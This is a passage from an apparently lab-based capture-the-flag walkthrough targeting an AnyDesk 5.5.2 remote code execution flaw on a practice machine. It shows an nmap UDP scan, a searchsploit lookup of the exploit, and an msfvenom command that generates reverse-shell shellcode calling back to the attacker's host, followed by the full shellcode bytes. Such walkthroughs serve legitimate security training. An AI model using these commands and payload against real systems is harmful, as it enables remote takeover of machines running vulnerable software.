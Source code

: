 ```shell
geobour98@kali:~$ sudo nmap -sU -v -p 50001 10.10.235.134
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-27 15:40 EEST
Initiating Ping Scan at 15:40
Scanning 10.10.235.134 [4 ports]
Completed Ping Scan at 15:40, 0.13s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:40
Completed Parallel DNS resolution of 1 host. at 15:40, 0.01s elapsed
Initiating UDP Scan at 15:40
Scanning 10.10.235.134 (10.10.235.134) [1 port]
Completed UDP Scan at 15:40, 0.93s elapsed (1 total ports)
Nmap scan report for 10.10.235.134 (10.10.235.134)
Host is up (0.088s latency).

PORT      STATE         SERVICE
50001/udp open|filtered unknown

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.19 seconds
           Raw packets sent: 6 (288B) | Rcvd: 1 (28B)
```

## Exploitation

The UDP port 50001 is either open or filtered by a firewall. Also, in the article there is a PoC python script in order to exploit the vulnerability, which can be found also with `searchsploit` command.
- Command: `searchsploit anydesk`

```shell
geobour98@kali:~$ searchsploit anydesk
----------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                         |  Path
----------------------------------------------------------------------- ---------------------------------
AnyDesk 2.5.0 - Unquoted Service Path Privilege Escalation             | windows/local/40410.txt
AnyDesk 5.4.0 - Unquoted Service Path                                  | windows/local/47883.txt
AnyDesk 5.5.2 - Remote Code Execution                                  | linux/remote/49613.py
----------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- Command to mirror (copy) the exploit: `searchsploit -m linux/remote/49613.py`

We have to change the ip variable with our Annie machine IP and generate python shellcode to replace the already created in order to get a reverse shell. It is generated with `msfvenom`.
- Command: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.8.200.50 LPORT=443 -b "\x00\x25\x26" -f python -v shellcode`

```shell
geobour98@kali:~$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.8.200.50 LPORT=443 -b "\x00\x25\x26" -f python -v shellcode
shellcode =  b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\xf1\x7c\x94"
shellcode += b"\xa2\x97\xa9\x17\x7b\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\x9b\x55\xcc\x3b\xfd"
shellcode += b"\xab\x48\x11\xf0\x22\x9b\xa7\xdf\x3e\x5f\xc2"
shellcode += b"\xf3\x7c\x95\x19\x9d\xa1\xdf\x49\xa0\x34\x1d"
shellcode += b"\x44\xfd\xb9\x4d\x11\xdb\x24\x9b\xa7\xfd\xaa"
shellcode += b"\x49\x33\x0e\xb2\xfe\x83\xcf\xa6\x12\x0e\x07"
shellcode += b"\x16\xaf\xfa\x0e\xe1\xac\x54\x93\x15\xfa\x8d"
shellcode += b"\xe4\xc1\x17\x28\xb9\xf5\x73\xf0\xc0\xe1\x9e"
shellcode += b"\x9d\xfe\x79\x94\xa2\x97\xa9\x17\x7b"
```
